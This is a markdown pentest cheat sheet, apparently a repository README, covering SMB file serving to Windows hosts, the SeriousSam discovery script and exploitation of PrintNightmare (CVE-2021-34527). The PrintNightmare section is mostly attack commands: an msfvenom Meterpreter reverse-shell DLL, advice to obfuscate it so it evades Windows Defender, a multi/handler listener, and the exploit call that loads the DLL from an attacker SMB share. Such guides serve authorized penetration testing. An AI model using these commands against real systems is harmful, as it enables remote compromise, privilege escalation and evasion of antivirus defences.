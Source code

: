 # Pentest Guides 

## Feching files to Windows host

Linux | Windows
-------|--------
`sudo smbserver.py -smb2support -user complexia -password complexia share $(pwd)` | `\\192.168.1.1\share\$(filename)`
`sudo smbserver.py share $(pwd) -smb2support` | `\\192.168.1.1\share\$(filename)`



## Vulnerabilities - Windows

### -> SeriousSam

***Setup commands***

*Running a script on a low privilege user will cause an error, run the command below*

`Set-ExecutionPolicy -ExecutionPolicy RemoteSigned -Scope CurrentUser`


**Discovery methods**

Method | Command
-------|--------
PowerShell | `.\SeriousSam.ps1`

Link to [Github Repository](https://github.com/romarroca/SeriousSam/blob/main/serioussam.ps1)

### -> PrintNightmare

***Setup commands***

Description | Commands&Links
------------|--------
*Download virtualenv* | `sudo apt install virtualenv`
*Create virtual enviroment by sudo privileges with the command*  | `virtualenv --python=python3 yourdirectory`
*Run*  | `source yourdirectory/bin/activate`
*Git clone & Follow Instructions*  | [Repository](https://github.com/cube0x0/CVE-2021-1675)
*Install the impacket version described in github repository* | [Repository](https://github.com/cube0x0/CVE-2021-1675)
*Create meterpreter payload* | `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=0.0.0.0 LPORT=0000 -o reverse.dll`
*Meterpreter payload only works when windows defender disabled* | **Obfuscate the payload**

***Exploit commands***

Description | Commands&Links
------------|---------------------------------------------------------------------------------------------------
*Setup smbserver in root mode in virtual enviroment with the correct impacket version* | `smbserver.py share $(pwd) -smb2support`
*Create your multi/handler* | `multi/handler -- > set payload windows/x64/meterpeter/reverse_tcp`
*Run the script* | `python3 CVE-2021-34527.py cyberlabs.com/cyberuser:'Password'@0.0.0.0 '\\0.0.0.0\share\shell.dll`

**Discovery methods**

Method | Command
-------|--------
Script | `rpcdump.py @192.168.1.10 \| egrep 'MS-RPRN\|MS-PAR'`


